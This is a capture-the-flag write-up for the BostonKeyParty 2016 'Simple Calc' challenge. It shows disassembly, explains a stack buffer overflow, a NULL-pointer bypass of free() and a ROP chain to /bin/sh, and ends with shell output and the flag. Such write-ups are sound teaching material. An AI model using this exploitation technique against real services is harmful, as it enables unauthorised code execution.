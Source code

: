
## BostonKeyParty CTF 2016 - Simple Calc (Pwn 5pt)
##### 04/03 - 06/03/2016 (48hr)
___
### Description: 
what a nice little calculator!

simplecalc.bostonkey.party 5400
___
### Solution

This was a pretty easy challenge. The binary was a simple calculator (+, -, *, /). At the beginning,
program asks for the expected number of calculations:
```assembly
.text:00000000004013E9         lea     rax, [rbp+ncalc_14]
.text:00000000004013ED         mov     rsi, rax
.text:00000000004013F0         mov     edi, offset aD  ; "%d"
.text:00000000004013F5         mov     eax, 0
.text:00000000004013FA         call    __isoc99_scanf
.text:00000000004013FF         mov     eax, 0
.text:0000000000401404         call    handle_newline
.text:0000000000401409         mov     eax, [rbp+ncalc_14]
.text:000000000040140C         cmp     eax, 0FFh
.text:0000000000401411         jg      short WRONG_NCALC_40141B
.text:0000000000401413         mov     eax, [rbp+ncalc_14]
.text:0000000000401416         cmp     eax, 3
.text:0000000000401419         jg      short NCALC_OK_40142F
.text:000000000040141B
.text:000000000040141B WRONG_NCALC_40141B:             ; CODE XREF: main+8Ej
.text:000000000040141B         mov     edi, offset aInvalidNumber_ ; "Invalid number."
.text:0000000000401420         call    puts
.text:0000000000401425         mov     eax, 0
.text:000000000040142A         jmp     locret_401588
.text:000000000040142F ; ---------------------------------------------------------------------------
.text:000000000040142F
.text:000000000040142F NCALC_OK_40142F:                ; CODE XREF: main+96j
.text:000000000040142F         mov     eax, [rbp+ncalc_14]
.text:0000000000401432         shl     eax, 2          ; allocate 4 bytes for each calculation
.text:0000000000401435         cdqe
.text:0000000000401437         mov     rdi, rax
.text:000000000040143A         call    malloc
```
Then we allocate some memory big enough to hold the results (4 byte per results). We're allowed to
make from 3 to 255 calculations.

The vulnerability, was fairly easy to find and exploit:
```assembly
.text:0000000000401529         cmp     eax, 5
.text:000000000040152C         jnz     short INVALID_OPT_40155D
.text:000000000040152E         mov     eax, [rbp+ncalc_14]
.text:0000000000401531         shl     eax, 2
.text:0000000000401534         movsxd  rdx, eax
.text:0000000000401537         mov     rcx, [rbp+ptr_10]
.text:000000000040153B         lea     rax, [rbp+vuln_buf_40]
.text:000000000040153F         mov     rsi, rcx
.text:0000000000401542         mov     rdi, rax
.text:0000000000401545         call    memcpy          ; overflow: vuln_buf is small
.text:000000000040154A         mov     rax, [rbp+ptr_10]
.text:000000000040154E         mov     rdi, rax
.text:0000000000401551         call    free            ; pointer must be NULL to avoid crash ;)
.text:0000000000401556         mov     eax, 0
.text:000000000040155B         jmp     short locret_401588
```
Upon exit, we copy the results to a very small buffer:
```assembly
	.text:0000000000401383 vuln_buf_40     = byte ptr -40h
	.text:0000000000401383 option_18       = dword ptr -18h
	.text:0000000000401383 ncalc_14        = dword ptr -14h
	.text:0000000000401383 ptr_10          = qword ptr -10h
```
Thus it's very easy to overflow the buffer and overwrite return address and get control of rip.
We have total control of the contents of the buffer, as they're the results of the caclulations,
which we control their arguments.

However there's a problem: Except the rip, we also overwrite rbp+ptr_10, which is the pointer
that holds the results in the heap. If this value is not a valid entry address of a heap buffer,
free() will crash. The first idea is to set it to NULL, so if there's a check for NULL pointer 
as input at the beginning of free(), we'll immediately return. Fortunately this is true:
```assembly
.text:00000000004156D0         public free ; weak
.text:00000000004156D0 free            proc near               ; CODE XREF: _i18n_number_rewrite+1EAp
.text:00000000004156D0                         ; _i18n_number_rewrite_0+1EAp ...
.text:00000000004156D0         mov     rax, cs:__free_hook
.text:00000000004156D7         test    rax, rax
.text:00000000004156DA         jnz     loc_41579A
.text:00000000004156E0         test    rdi, rdi
.text:00000000004156E3         jz      locret_415798
```
As you can see, rdi (1st argument), is checked if it's 0 (NULL) and if so, free() returns. Thus,
we can overwrite ptr with zeros and then directly overwrite rip.

However, for any type of calculation, input numbers must be >0x27 (unsigned):
```assembly
.text:00000000004010E0         mov     eax, cs:add_1_6C4A80
.text:00000000004010E6         cmp     eax, 27h        ; number must be >= 50
.text:00000000004010E9         jbe     short TOO_SMALL_4010F6
.text:00000000004010EB         mov     eax, cs:add_2_6C4A84
.text:00000000004010F1         cmp     eax, 27h
.text:00000000004010F4         ja      short NUMS_OK_40110A 
```
In order to have a result of 0, we have to give as input num1=X and num2=X and do a subtraction. 
We need this because addresses are 8 bytes long and the 4-MSB must be NULL. Because DEP is
enabled, we need to ROP. Fortunately for us, binary is statically linked, so there are many
gadgets available. A /bin/sh shell is enough, so we can find our gadgets using ROPgadget.py.

The exploit is simple: fill buffer with zeros, overwrite rip with the address of the 1st gadgets,
add fill the rest of the stack with the ROP exploit. See the python code, for the complete attack.
The flag is **BKPCTF{what_is_2015_minus_7547}**.

```
root@nogirl:~/ctf/bostonkeyparty# ./simple_calc_expl.py 
	[..... TRUNCATED FOR BREVITY .....]
	Options Menu: 
	 [1] Addition.
	 [2] Subtraction.
	 [3] Multiplication.
	 [4] Division.
	 [5] Save and Exit
	.=> ls -la
		total 1188
		drwxr-xr-x 2 calc calc   4096 Mar  4 05:23 .
		drwxr-xr-x 3 root root   4096 Mar  4 05:04 ..
		-rw-r--r-- 1 calc calc    220 Mar  4 05:04 .bash_logout
		-rw-r--r-- 1 calc calc   3637 Mar  4 05:04 .bashrc
		-rw-r--r-- 1 calc calc    675 Mar  4 05:04 .profile
		-rw-r--r-- 1 root root     32 Mar  4 05:23 key
		-rwxr-xr-x 1 root root     80 Mar  4 05:14 run.sh
		-rwxrwxr-x 1 calc calc 882266 Mar  4 05:04 simpleCalc
		-rw-r--r-- 1 root root 302348 Feb  1  2014 socat_1.7.2.3-1_amd64.deb
	whoami
		nobody
	cat key
		BKPCTF{what_is_2015_minus_7547}
	exit
	*** Connection closed by remote host ***
```
___